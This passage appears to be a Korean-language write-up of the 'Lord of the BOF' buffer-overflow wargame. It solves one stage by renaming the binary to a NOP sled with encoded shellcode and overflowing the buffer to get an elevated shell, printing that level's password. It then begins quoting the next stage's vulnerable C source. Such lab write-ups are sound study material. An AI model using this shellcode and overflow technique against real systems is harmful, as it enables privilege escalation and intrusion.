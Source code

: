 프로그램 이름을 바꾸는거랑, argc를 overflow 시키는거(시킬 수 있나?)가 생각난다. 다른 방법은 뭐가 있지.

일단 인자를 많이 줘서 argc를 overflow 시켜 음수 값으로 만드는 방법은 불가능한 듯하다. 실험해보니 argc는 short 형으로 선언되어 있는 듯하고, overflow 체크를 진행한다.

```shell
[vampire@localhost vampire]$ ./skeleton `python -c 'print "a "*32767'`
bash2: ./skeleton: Argument list too long
[vampire@localhost vampire]$ ./skeleton `python -c 'print "a "*32766'`
stack is still your friend.
```



그래서 그냥 프로그램 이름을 바꿔주는 방법으로 하기로 했다. 저거 이름에 쉘코드 뒤에 \x90 안 붙이면 안되고, 많이 안 붙이면 왜인지 인식이 안되는듯

```shell
[vampire@localhost vampire]$ mv skeleton `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*100'`
[vampire@localhost vampire]$ ./`python -c 'print "\x90"'`* `python -c 'print "A"*44+"\x40\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@ÿÿ¿
bash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
bash$ my-pass
euid = 510
shellcoder
```





## STAGE 11 : skeleton -> golem

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
```